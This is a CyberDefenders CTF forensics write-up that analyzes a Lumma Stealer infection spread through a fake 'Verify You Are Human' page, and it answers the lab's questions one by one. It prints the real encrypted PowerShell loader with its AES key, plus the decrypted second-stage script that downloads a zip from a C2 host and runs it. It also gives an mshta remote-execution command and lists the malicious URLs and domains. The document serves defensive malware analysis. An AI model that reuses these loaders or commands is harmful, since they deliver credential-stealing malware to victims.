








# Lumma Stealer



Access Lab: [here](https://cyberdefenders.org/blueteam-ctf-challenges/lummastealer/)

> **Lab Description**:<br>
> Lumma Stealer is a powerful malware written in C that secretly steals a wide range of data from infected systems. This MaaS (Malware-as-a-Service) tool has quickly become known for its ability to target and steal important information like cryptocurrency wallets, browser data, email credentials, financial details, personal files, and FTP client data. It uses advanced techniques like controlled data writing and encryption to avoid detection and increase its effectiveness. A new and sophisticated method of distributing Lumma Stealer malware has been uncovered, targeting Windows users through deceptive human verification pages. <br>
You have been given a disk triage from a machine that has fallen victim this new attack. Your task is to analyze the malware and determine exactly what occurred on the machine.

**Q1: The victim has been deceived into executing an encoded Powershell command on his device. What is this command in its decoded form?**



Finding all eventlog in **C:\Users\Administrator\Desktop\Start Here\Artifacts\Windows\System32\winevt\Logs** contain **Powershell** text.

Choose Windows PowerShell.evtx to deep analysis. Using Event Log Explorer tools to analyze.

> Some Note about Event ID in event log powershell:
> * 400: Engine state is changed from None to Available.
> * 403: Engine state is changed from Available to Stopped.
> * 600: A Provider is Started.
> * 800 - Pipeline executed.
> * 4103 - Module logging.
> * 4104 - Script block logging.
> * 4105 - Command started.
> * 4106 - Command completed.

Most cases, When you execute Powershell script. It will start at event id **400** or **403** and end with event id **600**. Other, key point to analyze is **HostApplication** in **Decription** Tab:



> First time of Malicious Script: <br>
> 9/12/2024 - 9:08:19 AM

Script:
```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w 1 -ep Unrestricted -nop function llemiXA($iMYi){return -split ($iMYi -replace '..', '0x$& ')};$MeloNmjt = llemiXA('1EC0DD0BB73CA88CF5B0BD8263811B4B64E34C06A804D58C0D811D5C37129DB5FFAFF3FEB78DD5A8C99D9D7BA8C273BB91B1B75E06AB87A183EA7755CCABE7B6932D5F329F5305ACA6C3D7D808AC8765ECCC87F99F44C7296D2424100B42DF8C725C2951946060EA69ED332FE9E38A6EE3DBFE14005664EB807CD0D97E8066BAF32FB30305E9BCB1632DA3929F1A6D35F806B6ADA832BDD28C27DAC62E8048E082CC6076657EA67129E53CDD376F76BC7DD61EC02B7ABA914F3168EB1EC802A7D47907460C1BCB530B127B5FCABF6D0F9D323902BD023BB413216AD6E710BFEAE8D21715882AE9E8145DA4B7FF51E118407666DF27AF2374FDAC2F8086FEAE8FE51D21418E13D663E146D4EE51F5F66D45D68EC04D8BDBAC689AD4F09C3DD1889D47C47E909DA94FC6C3285BDB524410FC6F6E6F99D2BDCC82DF6D07CCDA6521E8ADAC7456B3212C7AAAC89D32FC8EC9FC0D4135BDBE19EB5FB37E391E633F1D5F9FCBF6BF94396BFDDB00A44C18EC929D97BAC9ADC3383B31DE685AC331D31AE6DE1803CE47C3989F203DE31546D749529FEE5B16CA01B5119C933223A1B21DE212CC321ABBD42CB8BF415900C9C0D5360406DE8CAEB2C91603FC7C299C270E67BEF0917E182D4D7001B7E4C5EBF710BC694C57E326F2783FF9150509431AB5845BD0B5A2FB07691DEE676D7FE0654BECB7AE175241E3AB495EC2D65D5FA126C5443E4E44B5F718C3F518D3E941E241D38BA855B06322364E61AC9182D5DD8987C5071A34732CE1F84365B97744A8C7A2831635E99E50D757B98A20C6197B58E622D1EC103C19D71DFA35AB4D021771DE08A5060B541FE76488C587576AD47238815B7FBEDF8844DE75EE77498A8FB1E5BDDB6EE2DF363851E223748EF1B17A596F8E039155ACC3BDA790ADDCBF1EE95768008B2D771A52CE8E589E9F41E7BA6474D9A49C0EE3265A11A92E9E877353A2EC2AA0CD2D8763F45633ABA0B37813EF274E4E88267E951079CA280E6AB2B7B5BD674929E47808B6B192871682FB41A2E73ED48375257811E5BC63B92DC423C8FB6712FCA16CA1A595A1BCB9327D94EBFA2B4C7F4AB78415731AD5812DB05B187FD30C3BFDA6647CE8154B7D6BA029C4FD0D39A343AABBB56A791659EC48C83E2CBE825B6CF31079E61E972368EB2F88EDECBB6AF363B82AE6C049BB8E07CBCC55522E2BAAEE50310A90229F69A91271804812F592BB8840D5C524D0920299C76866C9A35B890F3DA8B83F2433102A6354B210BD3435C758E4C313534EFF96A183DCBE2BA01EE36A17A46655FC56F67378ED2427E2EF703212103C10AC91E393047B31FEF5057EC3EE13AC675F0B526EB9037DFB8B3E8BD228FF0EB4822623');$kCqXc = [System.Security.Cryptography.Aes]::Create();$kCqXc.Key = llemiXA('53626368526B457A4E4F695244796C53');$kCqXc.IV = New-Object byte[] 16;$MAElvXve = $kCqXc.CreateDecryptor();$qWOgiQdIE = $MAElvXve.TransformFinalBlock($MeloNmjt, 0, $MeloNmjt.Length);$jGAqRnDYn = [System.Text.Encoding]::Utf8.GetString($qWOgiQdIE);$MAElvXve.Dispose();& $jGAqRnDYn.Substring(0,3) $jGAqRnDYn.Substring(3)
```

Simplification:
```powershell
function llemiXA($iMYi){
    return -split ($iMYi -replace '..', '0x$& ')
};

$cipher = llemiXA('1EC0DD0BB73CA88CF5B0BD8263811B4B64E34C06A804D58C0D811D5C37129DB5FFAFF3FEB78DD5A8C99D9D7BA8C273BB91B1B75E06AB87A183EA7755CCABE7B6932D5F329F5305ACA6C3D7D808AC8765ECCC87F99F44C7296D2424100B42DF8C725C2951946060EA69ED332FE9E38A6EE3DBFE14005664EB807CD0D97E8066BAF32FB30305E9BCB1632DA3929F1A6D35F806B6ADA832BDD28C27DAC62E8048E082CC6076657EA67129E53CDD376F76BC7DD61EC02B7ABA914F3168EB1EC802A7D47907460C1BCB530B127B5FCABF6D0F9D323902BD023BB413216AD6E710BFEAE8D21715882AE9E8145DA4B7FF51E118407666DF27AF2374FDAC2F8086FEAE8FE51D21418E13D663E146D4EE51F5F66D45D68EC04D8BDBAC689AD4F09C3DD1889D47C47E909DA94FC6C3285BDB524410FC6F6E6F99D2BDCC82DF6D07CCDA6521E8ADAC7456B3212C7AAAC89D32FC8EC9FC0D4135BDBE19EB5FB37E391E633F1D5F9FCBF6BF94396BFDDB00A44C18EC929D97BAC9ADC3383B31DE685AC331D31AE6DE1803CE47C3989F203DE31546D749529FEE5B16CA01B5119C933223A1B21DE212CC321ABBD42CB8BF415900C9C0D5360406DE8CAEB2C91603FC7C299C270E67BEF0917E182D4D7001B7E4C5EBF710BC694C57E326F2783FF9150509431AB5845BD0B5A2FB07691DEE676D7FE0654BECB7AE175241E3AB495EC2D65D5FA126C5443E4E44B5F718C3F518D3E941E241D38BA855B06322364E61AC9182D5DD8987C5071A34732CE1F84365B97744A8C7A2831635E99E50D757B98A20C6197B58E622D1EC103C19D71DFA35AB4D021771DE08A5060B541FE76488C587576AD47238815B7FBEDF8844DE75EE77498A8FB1E5BDDB6EE2DF363851E223748EF1B17A596F8E039155ACC3BDA790ADDCBF1EE95768008B2D771A52CE8E589E9F41E7BA6474D9A49C0EE3265A11A92E9E877353A2EC2AA0CD2D8763F45633ABA0B37813EF274E4E88267E951079CA280E6AB2B7B5BD674929E47808B6B192871682FB41A2E73ED48375257811E5BC63B92DC423C8FB6712FCA16CA1A595A1BCB9327D94EBFA2B4C7F4AB78415731AD5812DB05B187FD30C3BFDA6647CE8154B7D6BA029C4FD0D39A343AABBB56A791659EC48C83E2CBE825B6CF31079E61E972368EB2F88EDECBB6AF363B82AE6C049BB8E07CBCC55522E2BAAEE50310A90229F69A91271804812F592BB8840D5C524D0920299C76866C9A35B890F3DA8B83F2433102A6354B210BD3435C758E4C313534EFF96A183DCBE2BA01EE36A17A46655FC56F67378ED2427E2EF703212103C10AC91E393047B31FEF5057EC3EE13AC675F0B526EB9037DFB8B3E8BD228FF0EB4822623');
$AES_decrypt = [System.Security.Cryptography.Aes]::Create();
$AES_decrypt.Key = llemiXA('53626368526B457A4E4F695244796C53');
$AES_decrypt.IV = New-Object byte[] 16;
$Data = $AES_decrypt.CreateDecryptor();
$Plaintext_Bytes = $Data.TransformFinalBlock($cipher, 0, $cipher.Length);
$Plaintext = [System.Text.Encoding]::Utf8.GetString($Plaintext_Bytes);
$Data.Dispose();
# & $Plaintext.Substring(0,3) 
$Plaintext.Substring(3)

echo $Plaintext
```

You can see this script using **AES decryption module** to evasion from Anti-Virus Defenders.

Second script after first script is decrypted:
```powershell
function WriteToFile($filePath, $fileData) {
    [IO.File]::WriteAllBytes($filePath, $fileData)
};
function ExtractAndOpen($filePath) {
    $tempDir = $env:Temp;
    Expand-Archive -Path $filePath -DestinationPath $tempDir;
    Add-Type -Assembly System.IO.Compression.FileSystem;
    $zipFile = [IO.Compression.ZipFile]::OpenRead($filePath);
    $firstEntry = ($zipFile.Entries | Sort-Object Name | Select-Object -First 1).Name;
    $fullPath = Join-Path $tempDir $firstEntry;
    start $fullPath;
};
function DownloadFile($url) {
    $webClient = New-Object (DecodeString @(99, 122, 137, 67, 108, 122, 119, 88, 129, 126, 122, 131, 137));
    $fileData = $webClient.DownloadData($url);
    return $fileData
};
function DecodeString($encodedArray) {
    $shiftValue = 21;
    $decodedString = $Null;
    foreach($charCode in $encodedArray) {
        $decodedString += [char]($charCode - $shiftValue)
    };
    return $decodedString
};
function ExecuteTask() {
    $tempDir = $env:Temp + '\';
    $zipFilePath = $tempDir + 'tera15.zip';
    if (Test-Path -Path $zipFilePath) {
        ExtractAndOpen $zipFilePath;
    } Else {
        $fileData = DownloadFile (DecodeString @(125, 137, 137, 133, 136, 79, 68, 68, 120, 129, 126, 120, 128, 137, 132, 124, 132, 67, 120, 129, 126, 120, 128, 68, 138, 133, 129, 132, 118, 121, 136, 68, 137, 122, 135, 118, 70, 74, 67, 143, 126, 133));
        WriteToFile $zipFilePath $fileData;
        ExtractAndOpen $zipFilePath
    };;;
}

ExecuteTask;
```

> Above script was made beauty at: [Generic Code Beautify](https://cyberchef.org/#recipe=Generic_Code_Beautify()), you can modify variable or function name if you can :>>

Quick observation, I can see a url have been encoded,
i use script to decode it:



C2: https://clicktogo.click/uploads/tera15.zip

Luckily, it don't active because I ran up it in my local Laptop :))

Ok, I analyzed first script i have been saw it. Next script now:


Done:<br>


URL: https://clicktogo.click/uploads/tra15

Quickly, Next step is Third Script:



Oh sh*t! I realize that I'm sorted from latest to earliest. So if you read my writeup, you should be reverse brain 🐧

> ANSWER: **mshta "https://clicktogo.click/uploads/tra15"**

**Q2: What is the MITRE ATT&CK sub-technique ID associated with the method used by the sample to download and execute the payload in the earlier PowerShell command?**

Base on Question 1, This technique using mshta to execute remote script (usually used in Ransomware Attack). Such as below picture


**Q3: The victim was tricked by a fake verification website while browsing the internet. What is the URL of the malicious website to which the Powershell command belongs?**



Filter title with "Verify You Are Human"


Parse Database with DB Browser. I guessing with format, because I can not any correct answer in **downloads**, **downloads_slices** tables

If you look at the title column "Verify You Are Human", you could associate [Fake CAPTCHA Webpage Tricks Users into Running Malicious Code](https://hackerdose.com/security/fake-captcha-tricks-users-running-code/)

> ANSWER: **https://check-robot.b-cdn.net/Done-Captcha.html**

**Q4: In the second-stage of the malware execution, it downloads an additional file. What is the name of this file?**

Solution in SecondScript at Question 1

> ANSWER: **tera15.zip**

**Q5: What is the URL from which the above file was downloaded?**

Solution in SecondScript at Question 1

> ANSWER: **https://clicktogo.click/uploads/tera15.zip**

**Q6: The malware performs process hollowing on a legitimate system process to evade detection. What is the name of this process?**

I find the malicious file in path: 
`C:\Users\Administrator\Desktop\Start Here\Artifacts\Users\Infern0o\AppData\Local\Temp\tera15` and get hash MD5 to easier analyze with [**VirusTotal**](https://www.virustotal.com/gui/file/7c5b4be6d1d08fe5bc81f0ac5b3ec77f87f73b5a81eef0dd6f45255b22f08edd/detection).


> ANSWER: **BitLockerToGo.EXE**

**Q7: The malware attempts to connect to multiple domains. What is the first domain it tries to connect to?**



> ANSWER: **votteryloeq.shop**


